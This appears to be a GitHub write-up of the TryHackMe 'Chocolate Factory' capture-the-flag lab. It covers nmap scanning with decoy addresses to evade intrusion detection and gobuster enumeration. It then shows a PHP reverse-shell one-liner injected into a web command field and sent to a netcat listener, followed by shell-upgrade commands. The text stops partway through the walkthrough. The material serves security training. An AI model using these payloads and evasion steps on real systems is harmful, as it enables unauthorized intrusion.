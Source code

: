 
![intro](https://github.com/user-attachments/assets/50e81e51-d8d8-4b71-9227-35567c08f0f4)

# tryhackme-Chocolate Factory-writeup
This is a walkthrough for the tryhackme CTF Chocolate Factory. I will not provide any flags or passwords as this is intended to be used as a guide.

## Scanning/Reconnaissance

First off, let's store the target IP as a variable for easy access.

Command: export ip=xx.xx.xx.xx

Next, let's run an nmap scan on the target IP:
```bash
nmap -A -v $ip -D RND:10 -oN nmap.txt
```

Command break down:

-A: This flag enables aggressive scanning. It combines various scan types (like OS detection, version detection, script scanning, and traceroute) into a single scan.

-v: increases verbosity, providing more detailed output during the scan.

—$ip: provides the target IP we stored as the variable $ip.

-D RND:10 Nmap can send additional packets to confuse network intrusion detection systems (IDS) or hide the true source of the scan by randomly selecting up to 10 decoy IP addresses.

-oN nmap.txt: This option specifies normal output that should be saved to a file named “nmap.txt.

This scan reveals many open ports, but I'll just focus on the relavent ones:
![nmap](https://github.com/user-attachments/assets/6967f154-8e11-4172-b1bc-95659d16b9f1)

The web server on port 80 takes to you a login panel that uses a validate.php function. The nmap scan took a while so I also ran scans with gobuster and nikto.
```bash
gobuster dir -u $ip -w=/usr/share/wordlists/dirb/common.txt -x php,txt,jpg -o buster.txt
```
I checked out the home.php dir and it took me to the squirrel room, which has an command input. I will try to run a simple php reverse shell. Let's head to revshells.com, input your IP and desired port, and I'm going to use the PHP exec shell. I'm choosing a short php shell since the site clearly uses php for many of it's functions:
```bash
php -r '$sock=fsockopen("10.10.191.134",9001);exec("sh <&3 >&3 2>&3");'
```
On kali we'll run the netcat listener:
```bash
nc -lvnp 9001
```
We now a primative shell as www-data!
First, let's upgrade the shell for improved function and stability:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
```bash
export TERM=xterm
```
ctrl -z
```bash
stty raw -echo; fg
```
```bash
stty rows 16 columns 138
```
Taking a look at www-data's home directory we see validate.php, which includes a password for Charlie:
![charlie](https://github.com/user-attachments/assets/98932712-e5a2-4ebb-ba2c-3659b083fafd)
I tried to switch users to charlie with this password but no luck. Must be a password for the original login on the web server. Let's see what else we can find...
